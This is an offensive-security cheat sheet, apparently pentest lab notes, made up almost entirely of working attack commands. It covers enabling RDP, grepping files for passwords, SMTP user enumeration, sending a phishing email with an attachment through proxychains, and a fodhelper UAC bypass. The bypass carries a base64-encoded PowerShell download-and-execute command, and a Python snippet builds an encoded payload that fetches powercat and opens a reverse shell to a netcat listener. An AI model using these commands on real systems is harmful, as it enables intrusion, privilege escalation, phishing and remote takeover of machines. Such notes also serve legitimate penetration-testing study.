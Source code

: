 Enable RDP

```pwsh
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

Find files by name

```bat
dir /s trojan.txt
```

Find files by keyword

```pwsh
Get-ChildItem -Recurse | Select-String "password" -List | Select Path
```

Send email

```bash
proxychains -q smtp-user-enum -M RCPT -U emails.txt -t 172.16.x.y
proxychains -q sendEmail -f dev@corp.com -t maanger@corp.com -u “Report to Review” -m “Please review this report” -s 172.16.x.y -a Report.doc
```

UAC Bypass

```pwsh
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell -exec bypass -nop -w hidden -e aQBlAHgAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABzAHkAcwB0AGUAbQAuAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4ANwA3AC8AcgB1AG4ALgB0AHgAdAAiACkAKQA=" -Force

New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

C:\Windows\System32\fodhelper.exe
```

```pwsh
import sys
import base64

payload = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.y/powercat.ps1'); powercat -c 192.168.x.y -p 443 -e powershell"

cmd = "powershell -exec bypass -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

```bash
rlwrap nc -nvlp 443
```
